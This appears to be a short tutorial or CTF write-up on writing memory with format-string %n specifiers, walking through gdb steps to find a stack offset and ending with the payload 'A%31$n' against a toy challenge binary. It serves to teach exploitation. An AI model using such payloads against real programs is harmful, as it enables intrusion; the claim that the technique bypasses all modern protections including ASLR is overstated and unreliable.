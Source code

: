 ## Writing Values with Format String (Part 1)
Similar to reading values with the same exploit, but this time, we're using %n to write to a pointer. <br />
This is very important: `%n` MUST be a pointer. Otherwise, this will not work.
```bash
%<num>$n
$n
```
`$n` will take the length of everything proceeding it, and chuck it inside the specified pointer. <br />
So... if I wanted to write 1 into the 2nd to last pointer, I'd do...
```bash
`%<size>x`
```
Instead of writing A, I could also just do 
```bash
%1x   %2$n
```
since C automatically pads format parameters that have `%[num]`.
<br /><br />

1. If necessary, `$gdb` debug to pinpoint address of the pointer you want to write to
2. $gdb debug to obtain stack before printf (telescope command works really well here)
3. While looking at the stack, find the pointer address offset (usually in 4-byte chunks)
4. Insert proper `%n` string to modify value.

Again, because we're not messing with the stack, this bypasses all modern memory protections (such as ASLR)
<br /><br />
You could do something finnicky with high/low order bytes too, but I find that it's usually not worth it

## Demo - in $gdb
First, we'll analyze the code in `main()`
```gdb
start
x/100i main
```
Set breakpoints at malloc() and printf() so we can perform calculations on them later
```gdb
b *0x565561fd 
b *0x5655625c
continue
```
Pinpoint address of pointer you want to write to. My assembly said the pointer is stored at `$ebp - 0xc`, so that's what we're finding
```gdb
print $ebp - 0xc
continue
```
Find the address offset of the pointer we just got. For us, there was a 124 byte difference. In a 32-bit system (4 byte memory), that is a `124/4 = 31` address offset.
```gdb
telescope 50
exit
```

## Demo - Exploit
Now that we know that we need to:
1. Write a value of 1 `(TRUE)`
2. Write to address offset 31

We can start crafting our format string `%n` statement.
```bash
A%31$n
```

And there we go. Now you should see classified McDonalds information.